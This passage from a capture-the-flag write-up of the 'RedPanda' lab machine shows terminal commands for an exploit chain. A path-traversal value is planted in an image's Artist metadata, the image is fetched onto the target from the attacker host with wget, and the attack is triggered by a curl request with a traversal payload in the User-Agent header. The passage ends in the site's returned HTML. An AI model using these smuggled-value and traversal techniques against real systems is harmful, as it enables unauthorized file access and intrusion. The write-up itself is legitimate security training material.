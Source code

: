 ```bash

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ exiftool -Artist='../tmp/attack' smooch.jpg 
    1 image files updated

```
Now we should download the image to the victim as well.
```bash
woodenk@redpanda:/tmp$ wget http://10.10.14.17/smooch.jpg
                       wget http://10.10.14.17/smooch.jpg
wget http://10.10.14.17/smooch.jpg
--2024-05-20 09:57:07--  http://10.10.14.17/smooch.jpg
Connecting to 10.10.14.17:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 195969 (191K) [image/jpeg]
Saving to: ‘smooch.jpg’

smooch.jpg                                        100%[=============================================================================================================>] 191.38K  --.-KB/s    in 0.03s   

2024-05-20 09:57:07 (5.83 MB/s) - ‘smooch.jpg’ saved [195969/195969]

woodenk@redpanda:/tmp$ 

```
We should trigger our attack with the `curl` command.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ curl -A "evil||/../../../../../../../../../../tmp/smooch.jpg" http://$ip:8080/         
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <meta author="wooden_k">
    <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
    <link rel="stylesheet" href="css/panda.css" type="text/css">
    <link rel="stylesheet" href="css/main.css" type="text/css">
    <title>Red Panda Search | Made with Spring Boot</title>
  </head>
  <body>

    <div class='pande'>
      <div class='ear left'></div>
      <div class='ear right'></div>
      <div class='whiskers left'>
          <span></span>
          <span></span>
          <span></span>
      </div>
      <div class='whiskers right'>
        <span></span>
        <span></span>
        <span></span>
      </div>
      <div class='face'>
        <div class='eye left'></div>
        <div class='eye right'></div>
        <div class='eyebrow left'></div>
        <div class='eyebrow right'></div>

        <div class='cheek left'></div>
        <div class='cheek right'></div>

        <div class='mouth'>
```